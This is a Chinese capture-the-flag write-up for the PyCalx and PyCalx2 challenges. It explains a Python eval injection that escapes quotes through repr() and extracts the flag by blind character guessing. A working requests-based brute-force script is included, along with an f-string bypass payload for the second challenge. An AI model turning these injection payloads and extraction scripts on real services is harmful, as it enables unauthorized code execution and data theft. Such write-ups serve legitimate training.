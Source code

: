 其中get_op函数是两位但是却只检测第一位，很明显可以利用。
repr() 函数将对象转化为供解释器读取的形式，当传入不是数字是字符串的时候，会引入引号。
所以当我们传入value1='a',value2='a',op="+'"时，语句变为'a'+''a'，肯定会报错。
注释掉后面那个引号后，即 value1='a',value2='#a',op="+'"，语句变为'a'+''#a' 输出a，单引号成功逃逸。
利用 value1="a" value2=" and 1#a" op="+'" 语句为'a'+'' and 1 #a。先加法后与运算，输出1。
然而这里无法直接输出flag，因为输出有一个条件：if result.isdigit() or result == 'True' or result == 'False': print(result)
result必须有结果或者是bool值。但是由于过滤了括号 方括号，很难直接进行判断。
这里要用到之前的source变量。

arguments = cgi.FieldStorage()

if 'source' in arguments:
    source = arguments['source'].value
else:
    source = 0

if source == '1':
    print('<pre>'+escape(str(open(__file__,'r').read()))+'</pre>')

source赋值使用后仍然存在，是我们的可控点，且无过滤函数，我们可以通过它配合in进行猜解Flag，猜解成功页面返回True，错误则返回Flase。

?value1=a&op=%2b%27&value2=and%20True%20and%20source%20in%20FLAG%23&source=f
返回True
Exp：

import requests
from urllib.parse import quote

flag = "flag{"
url = "http://ff388d1d-d624-45f2-baad-198952fd236b.node3.buuoj.cn/cgi-bin/pycalx.py?value1=a&op=%2b%27&value2=and%20True%20and%20source%20in%20FLAG%23&source={0}".format(quote(flag))
for a in range(1,100):
      url = "http://ff388d1d-d624-45f2-baad-198952fd236b.node3.buuoj.cn/cgi-bin/pycalx.py?value1=a&op=%2b%27&value2=and%20True%20and%20source%20in%20FLAG%23&source={0}".format(quote(flag))
      for i in range(32,128):
            nurl = url + quote(chr(i))
            r = requests.get(url=nurl)
            #print(nurl)
            if "False" in r.text:
                  nurl = url
                  continue
            else:
                  flag+=chr(i)
                  print(flag)
        
忘记用二分法确实是有些憨批了。
PyCalx2过滤了op里的引号。根据上一题的Flag，可以知道版本是python3.6，这里需要使用F-strings.。（原题flag）
F-strings提供了一种明确且方便的方式将python表达式嵌入到字符串中来进行格式化。使用F-strings我们不用逃逸单引号，因为它支持表达式。 以f 开头，表达式插在大括号{} 里，在运行时表达式会被计算并替换成对应的值。

>>> str(repr('T'))+str('+f')+str(repr('ru{FLAG<source or 14:x}')) # 14的十六进制表示时'e'
"'T'+f'ru{FLAG<source or 14:x}'"
>>> eval(str(repr('T'))+str('+f')+str(repr('ru{1 or 14:x}')))
'Tru1' # 返回Invalid
>>> eval(str(repr('T'))+str('+f')+str(repr('ru{0 or 14:x}')))
'True'
